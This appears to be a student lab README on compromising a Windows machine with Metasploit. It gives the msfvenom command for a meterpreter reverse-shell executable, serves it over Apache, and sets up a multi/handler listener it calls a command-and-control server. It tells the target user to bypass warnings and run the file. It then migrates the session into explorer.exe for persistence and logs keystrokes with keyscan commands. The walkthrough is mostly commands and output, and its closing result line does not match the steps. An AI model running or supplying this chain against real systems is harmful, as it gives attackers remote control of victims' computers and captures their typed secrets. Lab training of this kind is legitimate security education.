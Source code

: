 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

![240485931-d9b9e488-6580-4969-a3d2-5061443c0ed1](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/e6f135d6-cf58-4b2f-8cab-868a55aba640)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![240482360-12b58fda-5cec-4e47-872b-b838ef920d46](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/e7a1a40a-0f38-47b5-a179-e02887e73391)





copy the fun.exe into the apache /var/www/html folder

![240482762-37d7e507-5d47-4ddb-ba93-586f6d73a51b](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/fa4f1c9d-4070-41dc-8c17-af3e7138514b)

Start apache server
sudo systemctl apache2 start
![240482920-0d0224f9-d80c-42b9-a3ab-09b48da66a27](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/0d0b8f82-2e86-4b69-88c0-80eb34821aff)




Check the status of apache2
![240483068-77516604-9c4f-4317-a188-c41de4625542](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/fda02337-8c5e-44a6-9785-3946ab6362ec)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![240483481-938f78c9-0e8a-42ef-847c-a7cee7393beb](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/d32376c3-8d68-4a1a-bc28-bf3a31d940a3)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 


![240483850-4cf82361-ac00-46ab-92a2-3f09592d98d5](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/4f2a5689-f926-44c2-a71f-68630800158d)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![240484009-fee0700e-bafd-4e76-af72-f5ac23a5d6ba](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/5cfa9933-aed6-47f4-ad7e-1c7cfe33282f)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![240486096-b2d36ca1-64a2-4863-a648-4ef4a8727dd9](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/965dcc7a-5996-4786-a545-831215ae3a00)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![240485311-85fb473c-59fe-4042-b163-552fddc735d1](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/2470e8ab-b160-41d9-9325-9a20bff5e1b1)


keyscan_dump	Shows the keystrokes captured so far
![240485244-785ef849-9095-4065-b38a-54b544a0c440](https://github.com/KRISHNARAJ-D/Compromising-windows-using-Metasploit/assets/119559695/b4df833f-48cc-467c-937c-663c87f673d4)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

